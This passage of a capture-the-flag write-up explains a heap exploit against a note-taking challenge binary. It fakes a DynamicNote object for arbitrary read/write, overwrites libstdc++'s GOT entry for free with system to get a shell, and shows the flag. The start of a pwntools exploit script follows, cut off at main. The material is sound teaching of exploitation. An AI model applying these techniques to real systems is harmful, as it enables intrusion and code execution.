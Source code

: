 ### Getting Arbitrary Read/Write
Now that we have heap and binary leaks, we can calculate offsets and fake a `DynamicNote` like this:

```[vtable ptr][data ptr][size][capacity]```

We embed this inside a real `DynamicNote` that is allocated before the vector data, then we will access the conent of the real `DynamicNote` because its conent points to our fake note (It is a Note*). using display content we can read [size] bytes and using set content we can write [capacity] bytes.

![alt text](image-20.png)

### Winning
The hard part of the CTF is over, most of the times when you have arbitrary read/write and so many leaks it is not hard to achive RCE. to achive arbitrary jump I checked the the libc.so and libstdc++.so from the docker (the docker is matching the remote) and saw it had partial RELRO, meaning I could overwrite its GOT.
I leaked the libstdc++ using the GOT of the binary, then I overwrote the free function inside of the GOT of libstdc++ to point to system, then I freed a DynamicNote with the conent of `/bin/sh` and finally:
```bash
$ ls
chall
flag.txt
$ cat flag.txt
L3AK{cl4n6_cf1_15_m057ly_600d}
```

### Exploit script
<details>
  <summary>Exploit</summary>

```python
from pwn import *
from struct import unpack, pack

def recv_menu(p):
    try:
        sleep(0.2)
        print(p.recv(0x100))
    except Exception as e:
        pass

def select(p, option: int, index=0xffffffffff, data="", *, recv=True):
    p.sendline(f"{option}")
    recv_menu(p)
    if index != 0xffffffffff:
        p.sendline(f"{index}")
        if recv:
            recv_menu(p)
    if data:
        p.sendline(data)
        recv_menu(p)


def leak_using_data(p, idx):
    select(p, 4, idx, recv=False)
    a = p.recv(0x100)
    return unpack("<Q", a[0xe:0xe+8])[0]


def main():
    # context.log_level = 'debug'
```